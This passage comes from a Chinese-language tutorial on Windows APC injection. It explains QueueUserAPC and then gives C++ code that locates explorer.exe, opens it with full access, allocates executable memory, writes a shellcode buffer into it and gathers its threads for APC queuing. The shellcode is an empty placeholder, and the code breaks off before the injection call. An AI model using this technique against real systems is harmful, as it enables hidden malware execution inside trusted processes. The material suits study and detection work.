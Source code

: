 2. **初始化线程：** 在目标线程启动之前，需要确保线程已被创建，并且线程句柄有效。

3. **调用 `QueueUserAPC` 函数：** 在任何线程中，通过调用 `QueueUserAPC` 函数将回调函数插入到目标线程的执行流程中。

   ```cpp
   HANDLE hThread = // 获取目标线程的句柄
   ULONG_PTR dwData = // 用户定义的数据
   
   if (QueueUserAPC(MyAPCFunction, hThread, dwData)) {
       // 成功将 APC 插入到目标线程
   } else {
       // 插入失败，处理错误
   }
   ```

需要注意的是，`QueueUserAPC` 并不会立即执行 APC 回调函数，而是等待目标线程处于能够执行 APC 的状态时才执行。目标线程可能需要处于等待状态，或者执行某些特定的系统调用时，APC 才会被执行。

使用 `QueueUserAPC` 时需要谨慎，因为过度使用可能导致代码复杂性增加，同时要确保线程安全，以避免竞态条件和死锁。



#### 实现代码

```c++
#include <windows.h>
#include <tlhelp32.h>
#include <vector>



int main()
{
    // 1. 定义shellcode
    UINT shellcodeSize = 0;
    unsigned char* shellcode = "";

    // 2. 获取 explorer 进程句柄，分配 shellcode 的内存
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
    PROCESSENTRY32 processEntry = { sizeof(PROCESSENTRY32) };

    if (Process32First(snapshot, &processEntry))
    {
        while (_wcsicmp(processEntry.szExeFile, L"explorer.exe") != 0)
        {
            Process32Next(snapshot, &processEntry);
        }
    }

    HANDLE victimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processEntry.th32ProcessID);
    LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // 3. 执行 shellcode
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
    WriteProcessMemory(victimProcess, shellAddress, shellcode, shellcodeSize, NULL);

    THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
    std::vector<DWORD> threadIds;

    if (Thread32First(snapshot, &threadEntry))
    {
        do {
            if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID)
            {
                threadIds.push_back(threadEntry.th32ThreadID);
            }
```